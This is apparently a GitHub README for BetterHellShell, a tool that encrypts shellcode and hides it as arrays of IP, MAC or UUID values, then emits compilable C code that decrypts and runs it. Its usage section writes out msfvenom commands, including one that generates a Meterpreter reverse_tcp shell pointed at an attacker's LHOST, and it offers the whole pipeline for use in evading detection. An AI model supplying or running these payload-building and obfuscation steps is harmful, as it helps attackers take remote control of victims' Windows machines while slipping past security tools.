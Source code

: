 # BetterHellShell

## Description

**BetterHellShell** is a payload encryption and obfuscation tool designed for obfuscating and encrypting shellcode or payloads.

This tool reads a payload from a file specified by the user, applies the selected encryption method (e.g., XOR, AES, RC4), and then obfuscates the payload using a chosen obfuscation method (MAC address, IPv4 address, UUID). If the payload is not already aligned with the required size, it will be padded to the nearest multiple required for obfuscation.

The program supports:
- Multiple encryption methods (XOR, AES, RC4).
- Several obfuscation techniques (IPv4, IPv6, MAC, UUID).
- Payload padding to ensure the correct size for obfuscation.

The encrypted and obfuscated payload, along with necessary decryption and deobfuscation functions, can then be written to a C file, which can then be compiled and executed or used as a base for more complex programs.

---

## Usage
First you will need to generate your payload:
  - Generate payload to open calc.exe (64-bit):
     ```c
     msfvenom -p windows/x64/exec cmd=calc.exe -f raw -o payload.bin
     ```
  - Generate payload to get a meterpreter reverse_tcp (64-bit):
     ```c
     msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<hostIP> LPORT=<hostPORT> -f raw -o payload.bin
     ```

Then you can run BetterHellShell as follow:
  ```
  BetterHellShell.exe payload.bin aes none > aes_only.c
  ```
  > This will encrypt the payload using AES. Then, the encrypted payload, key, IV, and the decryption function will be written in the `aes_only.c` file.
  
  ```
  BetterHellShell.exe payload.bin rc4 uuid > rc4_uuid.c
  ```
  > This will encrypt the payload using rc4 and then obfuscate in an array of UUIDs. It will then be written with, its key, and the decryption/deobfuscation functions  in the `rc4_uuid.c` file.
  
  ```
  BetterHellShell.exe payload.bin none ipv4 > ipv4_only.c
  ```
  > The payload won't be encrypted, just obfuscated into an array of IPv4 addresses. It will then be written into the `ipv4_only.c` with deobfuscation function.

[!] When compiling your resulted c code, if using AES encryption, make sure that it contains `aes.h` and `aes.c` in your project. You can use the Execute folder-project for ease of compiling.

## Demo

![Demo](https://github.com/user-attachments/assets/a3fedc33-047e-4e80-9abd-b353bd684c39)

## Credits
 - This project is a modified version of HellShell by @NUL0x4C and @mrd0x
 - It also uses AES implementation from [tiny-aes-c](https://github.com/kokke/tiny-AES-c)
